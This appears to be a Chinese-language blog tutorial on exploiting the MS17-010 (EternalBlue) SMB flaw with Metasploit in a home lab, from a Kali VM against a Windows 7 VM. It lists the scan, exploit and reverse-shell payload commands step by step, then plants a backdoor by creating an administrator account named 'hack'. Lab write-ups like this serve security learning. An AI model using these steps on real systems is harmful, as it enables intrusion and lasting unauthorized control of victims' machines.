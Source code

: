 ```yaml
---
layout:    post
title:     MSF之ms17-010永恒之蓝漏洞利用
subtitle:  学习学习
date:      2021-04-06
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 工具
   - 渗透
---
```


### MSF之ms17-010永恒之蓝漏洞利用

#### 准备

**实验环境：**

> 攻击机：虚拟机Kali系统 IP：192.168.216.130
> 被攻击机：虚拟机win7 x64系统(关闭防火墙) IP：192.168.216.131
> 攻击工具：Kali自带的msfconsole工具

#### 开始实验

1.进入MSF(可以终端进入也可以搜索在工具栏打开)：

终端命令：``msfconsole``  (root权限打开)

2.查找永恒之蓝对应的模块: ``search ms17-010``

[![c1VZss.md.png](https://z3.ax1x.com/2021/04/06/c1VZss.md.png)](https://imgtu.com/i/c1VZss)

3.利用辅助模块(auxiliary)进行探测信息，扫描发现某网段或IP段内是否存在有此漏洞的主机。

```
use auxiliary/scanner/smb/smb_ms17_010   //进入模块
show options  //显示所需要设置的参数
```

[![c1ZwBn.md.png](https://z3.ax1x.com/2021/04/06/c1ZwBn.md.png)](https://imgtu.com/i/c1ZwBn)

yes表示必须设置的参数，这里只需要设置目标地址(RHOSTS)

4.设置目标主机地址：``set rhosts 192.168.216.131``(这里是我们确定了目标主机，平时不知道可以扫描一段IP地址，如：``set rhosts 192.168.216.0/24``)

开始扫描：``exploit``

[![c1Mm1f.md.png](https://z3.ax1x.com/2021/04/06/c1Mm1f.md.png)](https://imgtu.com/i/c1Mm1f)

可以看到显示出``192.168.216.131``可能存在该漏洞。

5.使用攻击模块进行渗透攻击(第二步时就已经查找出所有相应的模块了)：``use exploit/windows/smb/ms17_010_eternalblue``

查看需要设置的攻击参数信息：``show options``

[![c1ljts.md.png](https://z3.ax1x.com/2021/04/06/c1ljts.md.png)](https://imgtu.com/i/c1ljts)

[![c11wDS.md.png](https://z3.ax1x.com/2021/04/06/c11wDS.md.png)](https://imgtu.com/i/c11wDS)

6.设置目标主机地址：``set rhosts 192.168.216.131``

7.根据主机类型，查找相应的载荷模块：``search windows/x64/shell``

[![c13Ui9.png](https://z3.ax1x.com/2021/04/06/c13Ui9.png)](https://imgtu.com/i/c13Ui9)

8.配置这个载荷模块信息：``set payload windows/x64/shell/reverse_tcp``(这里攻击会直接进入目标主机的cmd,想要在攻击机界面，使用``set payload windows/x64/meterpreter/reverse_tcp``)

9.查看配置的参数信息：``show options``

[![c1GS1I.md.png](https://z3.ax1x.com/2021/04/06/c1GS1I.md.png)](https://imgtu.com/i/c1GS1I)

[![c1GQBT.md.png](https://z3.ax1x.com/2021/04/06/c1GQBT.md.png)](https://imgtu.com/i/c1GQBT)

10.自己主机的信息，没有显示IP地址，使用``set lhosts xx.xx.xx.xx``设置。

11.开始攻击: ``run或exploit``

[![c1JLJH.md.png](https://z3.ax1x.com/2021/04/06/c1JLJH.md.png)](https://imgtu.com/i/c1JLJH)

可以看到成功拿到了目标主机的shell。

12.进行后门植入(创建新的管理员账户)：

```
net user hack 123456/add  //在Win7上创建一个新用户
net localgroup administrators hack/add  //将hack加入到win7的管理员组，提权
```

[![c8LCEd.png](https://z3.ax1x.com/2021/04/07/c8LCEd.png)](https://imgtu.com/i/c8LCEd)

进入win7看看：

```
net user  //查看win7本地用户
net localgroup administrators  //查看win7本地管理员
```

[![c8LA8P.png](https://z3.ax1x.com/2021/04/07/c8LA8P.png)](https://imgtu.com/i/c8LA8P)

可以看到成功了。


